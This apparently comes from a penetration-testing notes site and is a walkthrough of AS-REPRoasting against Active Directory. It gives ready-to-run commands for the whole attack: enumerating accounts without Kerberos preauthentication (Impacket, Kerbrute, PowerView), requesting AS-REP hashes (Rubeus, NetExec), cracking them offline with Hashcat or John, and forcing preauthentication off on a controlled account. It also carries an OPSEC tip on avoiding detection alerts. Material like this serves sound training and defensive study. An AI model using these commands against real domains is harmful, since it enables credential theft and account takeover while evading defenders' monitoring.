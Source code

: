 # AS-REPRoasting

**AS-REPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**.&#x20;

**Preauthentication** is a security feature in Kerberos where the client must prove knowledge of their password before the KDC issues a TGT. This is done by encrypting a timestamp with a key derived from the user’s password and sending it to the KDC. If the KDC can decrypt and validate the timestamp, it confirms the user knows their password — protecting against offline brute-force attacks.

If an account has the [`Do not require Kerberos pre-authentication`](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **AS-REP**. The AS-REP contains the **TGT** which is encypted with the account's password hash which can be potentially cracked.

<figure><img src="../../../.gitbook/assets/asreproasting_process (2).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Tools <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="Linux" %}
Enumerate ASREPRoastable accounts using Impacket or Kerbrute:

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script
impacket-GetNPUsers <domain>/<user> -dc-ip <dc-ip>

# Kerbrute
kerbrute userenum -d <domain> --dc <dc-ip> /opt/jsmith.txt
```
{% endcode %}

Execute the attack using Impacket or NetExec:

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script targeting a list of users
impacket-GetNPUsers <domain>/ -dc-ip <dc-ip> -no-pass -usersfile users.txt

# Impacket's GetNPUsers script targeting a single user
impacket-GetNPUsers <domain>/<targetUser> -dc-ip <dc-ip> -no-pass

# NetExec
nxc ldap <dc-ip> -u users.txt -p '' --asreproast asreproast.lst
```
{% endcode %}

For an example of ASREPRoasting using `nxc` see [Sauna](https://x7331.gitbook.io/boxes/boxes/easy/sauna#asreproasting).
{% endtab %}

{% tab title="Windows" %}
Enumerate ASREPRoastable accounts using [PowerView](../ad-tools/powerview.md) or the [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2025-ps) module:

{% code overflow="wrap" %}
```powershell
# PowerView
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# AD module
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
{% endcode %}

Execute the attack using [Rubeus](../ad-tools/rubeus.md):

{% hint style="warning" %}
**OPSEC**: Try to attack a single user at a time as this is not seen as an anomaly and won't trigger alerts.
{% endhint %}

```powershell
# ASREPRoast all susceptible accounts
.\Rubeus.exe asreproast /nowrap /format:hashcat /outfile:<fileName>

# ASREPRoast a single account
.\Rubeus.exe asreproast /user:<user> /nowrap /format:hashcat /outfile:<fileName>
```
{% endtab %}
{% endtabs %}

The obtained hashes can be cracked using Hashcat or JtR:

```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou

# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```

## Targeted AS-REPRoast

If we can't find any vulnerable users, but we have `GenericWrite` or `GenericAll` on a user object, we can modify that user's `UserAccountControl` to disable preauthentication and then perform the ASREP roast attack. Don't forget to reset the `UserAccountControl` after extraction!

{% tabs %}
{% tab title="Windows" %}
Force disable Kerberos PreAuth using [PowerView](../ad-tools/powerview.md):

```powershell
Set-DomainObject -Identity <user> -XOR @{useraccountcontrol=4194304} -Verbose
```

Request encrypted AS-REP using [Rubeus](../ad-tools/rubeus.md):

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe asreproast /user:<user> /outfile:<fileName> /nowrap /format:hashcat
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

* Some amazing demonstrations of AS-REPRoasting ([video](https://www.youtube.com/watch?v=EVdwnBFtUtQ), [video](https://www.youtube.com/watch?v=wA9w8t1fRWo))
* What `impacket-GetNPUsers` does behind the scenes ([video](https://www.youtube.com/watch?v=pZSyGRjHNO4))

